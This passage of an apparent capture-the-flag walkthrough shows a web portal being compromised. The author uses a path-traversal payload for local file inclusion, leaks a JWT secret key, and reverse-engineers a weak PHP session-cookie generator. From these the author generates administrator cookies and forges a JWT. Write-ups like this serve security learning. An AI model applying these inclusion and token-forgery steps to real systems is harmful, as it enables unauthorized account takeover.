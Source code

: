 ```json
Undefined array key "book" in C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php

Warning:  file_get_contents(../books/): Failed to open stream: No such file or directory in C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php
```

Alright, maybe there was something here. I started playing around with of the fields, but it seemed as though using method `1` it was specifically looking for:
- A `book` parameter
- A file to include

I changed the method to represent that, which looked as follows:

```json
book=../index.php&method=1
```

This successfully retrieved the `index.php` file and I now had Local File Inclusion (LFI). I decided to focus my efforts on the portal and started with the `login.php` page. The page relied on the `authController.php` page which had the following content:

<details></details>

From the file, I now had access to the SecretKey: `6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e` which I could use to generate JWT tokens. I continued searching and came across a `cookie.php` file:

```php
"<?php\r\n\/**\r\n * @param string $username  Username requesting session cookie\r\n * \r\n * @return string $session_cookie Returns the generated cookie\r\n * \r\n * @devteam\r\n * Please DO NOT use default PHPSESSID; our security team says they are predictable.\r\n * CHANGE SECOND PART OF MD5 KEY EVERY WEEK\r\n * *\/\r\nfunction makesession($username){\r\n    $max = strlen($username) - 1;\r\n    $seed = rand(0, $max);\r\n    $key = \"s4lTy_stR1nG_\".$username[$seed].\"(!528.\/9890\";\r\n    $session_cookie = $username.md5($key);\r\n\r\n    return $session_cookie;\r\n}"
```

It seemed as if the file was used to generate the actual JWT token, and since I had the code I would be able to generate the tokens myself. I decided to use the information that I had before, and I tried to generate a token for an **Active** administrator. After running the code several times, I was able to generate the following potential Session cookies:

```text
paul47200b180ccd6835d25d034eeb6e6390
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paula2a6a014d3bee04d7df8d5837d62e8c5
```


In order to exploit this, I needed to perform the following:
- Create a new JWT using the session tokens above
- Log into the `test` user account that I created
- Change the JWT to the newly created JWT

To create the JWT token, I used [jwt.io](https://jwt.io/) and included the first session cookie within the `Verify Signature` field which resulted in the following token:

```json
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
```
